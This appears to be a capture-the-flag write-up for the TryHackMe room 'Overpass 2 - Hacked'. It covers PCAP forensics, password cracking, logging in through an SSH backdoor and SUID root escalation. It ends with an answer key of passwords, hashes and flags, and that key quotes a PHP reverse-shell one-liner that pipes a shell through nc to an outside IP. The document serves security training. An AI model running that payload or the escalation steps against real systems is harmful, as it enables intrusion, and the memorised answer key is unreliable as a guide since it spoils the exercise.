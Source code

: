---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```
![OverPass-Header](./Images/OverPass-Header.png)

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.

![POST Request](./Images/POST-Request.png)

- Following HTTP Stream, I can figure all information that tracks down attackers' actions.

![POST HTTP Stream](./Images/POST-HTTP-Stream.png)

- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.

![users-hashes](./Images/users-hashes.png)

Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 

![cracked-passwords](./Images/cracked-passwords.png)


# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 

![ssh-backdoor](./Images/ssh-backdoor.png)

- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```
![james-home.png](./Images/james-home.png)

- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```

![get-root.png](./Images/get-root.png)

And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
	
1. What was the URL of the page they used to upload a reverse shell?  <br>
	-> /development/ <br>
	
2. What payload did the attacker use to gain access? 
	-> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
	
3. What password did the attacker use to privesc? <br>
	-> whenevernoteartinstant<br>
	
4. How did the attacker establish persistence? <br>
	-> https://github.com/NinjaJc01/ssh-backdoor<br>
	
5. Using the fasttrack wordlist, how many of the system passwords were crackable? <br>
	-> 4<br>
	
6. What's the default hash for the backdoor? <br>
	-> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3<br>
	
7. What's the hardcoded salt for the backdoor? <br>
	-> 1c362db832f3f864c8c2fe05f2002a05<br>
	
8. What was the hash that the attacker used? - go back to the PCAP for this! <br>
	-> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed<br>
	
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? <br>
	-> november16<br>
	
10.  The attacker defaced the website. What message did they leave as a heading? <br>
	-> H4ck3d by CooctusClan<br>
	
11. What's the user flag? <br>
	-> thm{d119b4fa8c497ddb0525f7ad200e6567}<br>
	
12. What's the root flag?<br>
	-> thm{d53b2684f169360bb9606c333873144d}<br>

</details>

